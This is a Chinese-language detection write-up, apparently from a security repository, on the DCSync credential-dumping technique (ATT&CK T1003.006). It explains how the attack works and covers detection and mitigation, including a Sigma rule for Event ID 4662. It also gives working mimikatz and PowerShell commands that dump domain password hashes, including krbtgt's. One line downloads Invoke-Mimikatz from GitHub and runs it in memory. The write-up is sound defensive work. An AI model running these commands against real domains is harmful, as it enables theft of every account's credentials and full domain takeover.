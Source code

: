 # T1003-006-Win-基于DCsync凭证获取

## 来自ATT&CK的描述

攻击者可能会通过滥用Windows域控制器的应用程序编程接口（API）来访问凭据和其他敏感信息，从而使用称为DCSync的技术来模拟来自远程域控制器的复制过程。

域控制器上的Administrators，Domain Admins和Enterprise Admin组或计算机帐户的成员能够运行DCSync来从Active Directory中提取密码数据，其中可能包括潜在有用帐户（例如KRBTGT和管理员。然后，这些散列又可以用于创建“黄金票证”，以用于“传递票证” 或更改“ 帐户操作”中所述的帐户密码。

DCSync功能已被列入“lsadump”模块中Mimikatz。Lsadump还包括NetSync，它通过旧版复制协议执行DCSync。

### DCsync

DCSync 是一种后期杀伤链攻击，允许攻击者模拟域控制器（DC）的行为，以便通过域复制检索密码数据。一旦攻击者可以访问具有域复制权限的特权帐户，攻击者就可以利用复制协议来模仿域控制器。

![img](https://s2.ax1x.com/2019/09/24/uk1Q6x.png)

**DCSync**  本身是**Mimikatz**中的一个命令，  [它](https://github.com/gentilkiwi/mimikatz) 依赖于利用Microsoft目录复制服务远程协议（MS-DRSR）中的特定命令来模拟域控制器的行为，并要求其他域控制器使用[目录复制服务远程协议](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)来复制信息  [（MS-DRSR）](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)。利用这些协议，此攻击利用了Active Directory的有效和必要功能，无法关闭或禁用它们。

### DCsync攻击原理

一般来说，DCSYNC攻击的工作方式如下：

1. 发现域控制器以请求复制。
2. 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 。
3. DC将复制数据返回给请求者，包括密码哈希值。

![img](https://s2.ax1x.com/2019/09/24/uk1ttH.gif)

DCSync的经典用例是作为[Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works) 攻击的前身，因为它可用于检索KRBTGT HASH。

### 所需权限

值得注意的是，为了执行此攻击，需要一些非常特权的权限。这就是为什么这种攻击被归类为在杀伤链攻击的后期发生的原因，并且攻击者通常需要一些时间才能获得这些权限。

通常，管理员，域管理员，企业管理员拥有所需的权限，但更具体地说，需要以下权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改

## 测试案例

DCSync是mimikatz在2015年添加的一个功能，由Benjamin DELPY gentilkiwi和Vincent LE TOUX共同编写，能够用来导出域内所有用户的hash.

**利用条件：**

获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

利用DRS(Directory Replication Service)协议通过IDL_DRSGetNCChanges从域控制器复制用户凭据

### 1.使用mimikatz

导出域内所有用户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /all /csv" exit
```

导出域内administrator帐户的hash：

```dos
mimikatz.exe privilege::debug "lsadump::dcsync /domain:abcc.org /user:administrator /csv" exit
```

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```powershell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```powershell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

## 检测日志

Windows 安全日志

## 测试复现

复现方法分为两类：本地、远程

### 场景:在本地运行DCsync,利用powershell脚本Invoke-Mimikatz

 在Windows域控服务器上启动powershell，然后下载Invoke-Mimikatz。

```powershell
iex (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
```

 完成后，我们可以使用以下命令运行DCSync。

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:0day.org"'
```

## 测试留痕

windows 安全日志，4662（在对象上已执行操作），特征值：*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2，控制访问*

## 检测规则/思路

DCSync是一个强大的工具，在红色团队成员手中，对于蓝色团队成员而言，这是一场噩梦。对于蓝队，一切都不会丢失。停止这种攻击可能不可行，但可以将其检测出来。

检测方法： 网络监控 、事件ID检测

### sigma规则

```yml
title: 在DCSync位置进行检测
description: windows server 2008 测试结果（域控本地）
references: https://yojimbosecurity.ninja/dcsync/
tags: T1003-006
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4662 #在对象上已执行操作。
        Operationtype: 'Obeject Access' #操作>操作类型
        Access: '访问控制' #操作>访问
        Properties:
             - '*1131f6aa-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出域账户
             - '*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*'  #特征值 mimikatz导出administrator
             - ‘*89e95b76-444d-4c62-991a-0facbeda640c*’  #特征值
    condition: selection
level: medium
```

### 建议

暂无

## 缓解措施及临时性解决方案

免受DCSync攻击的最佳保护是控制负责允许帐户复制更改的域权限。不可避免地，某些用户将拥有此权利，因此应受到保护。

为避免将特权密码详细信息存储在攻击者可能会破坏它们的位置，应使用分层的登录协议来防止特权帐户登录到可以从内存中转储其密码哈希值并用于获取执行密码所需权限的服务器和工作站。

## 参考推荐

MITRE-ATT&CK-T1003-006

<https://attack.mitre.org/techniques/T1003/006>

什么是DCSYNC？一个介绍

<https://blog.stealthbits.com/what-is-dcsync/>

域渗透——DCSync

<https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DCSync/>

DCsync利用原理

<https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47>

powershell工具实现

<https://gist.github.com/monoxgas/9d238accd969550136db>

DCsysnc检测

<https://yojimbosecurity.ninja/dcsync/>

Active Directory复制

<https://github.com/hunters-forge/ThreatHunter-Playbook/blob/master/library/active_directory_replication.md>
